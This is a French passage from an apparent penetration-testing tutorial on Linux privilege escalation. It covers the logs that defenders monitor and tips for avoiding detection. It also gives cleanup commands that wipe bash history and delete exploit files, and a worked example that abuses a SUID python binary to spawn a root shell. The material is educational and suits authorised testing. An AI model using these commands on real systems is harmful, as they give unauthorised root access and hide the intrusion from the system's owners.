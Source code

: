 #### Journaux à surveiller

```bash
# Principaux fichiers de journaux
/var/log/auth.log    # Tentatives d'authentification
/var/log/syslog      # Messages système généraux
/var/log/kern.log    # Messages du noyau
/var/log/audit/      # Journaux d'audit (si auditd est installé)
```

#### Techniques pour réduire la détection

1. **Évitez les échecs répétés** : Les tentatives échouées génèrent des alertes.
2. **Limitez l'utilisation de sudo** : Chaque utilisation est enregistrée.
3. **Préférez les techniques passives** : L'énumération des fichiers et permissions laisse moins de traces que l'exécution d'exploits.
4. **Utilisez des chemins relatifs** : Évitez les chemins absolus qui peuvent être surveillés.
5. **Évitez les outils bruyants** : Les scripts d'énumération automatisés génèrent beaucoup de bruit.

#### Nettoyage

```bash
# Effacer l'historique bash
history -c
rm ~/.bash_history

# Supprimer les fichiers temporaires
rm /tmp/linpeas.txt
rm /tmp/exploit
```

Cependant, notez que la suppression des journaux système est généralement déconseillée car :
- Elle peut déclencher des alertes
- Elle est souvent détectée par les solutions SIEM
- Elle peut violer les règles d'engagement

### 2.5 Exemple pratique : Escalade via SUID

Supposons que nous ayons découvert que le binaire `python` a le bit SUID :

```bash
find / -perm -u=s -type f 2>/dev/null | grep python
# Résultat : /usr/bin/python2.7
```

Nous pouvons exploiter ce binaire pour obtenir un shell root :

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Après exécution, nous obtenons un shell avec les privilèges root :

```bash
whoami
# Résultat : root
id
# Résultat : uid=0(root) gid=1000(user) groups=1000(user)
```
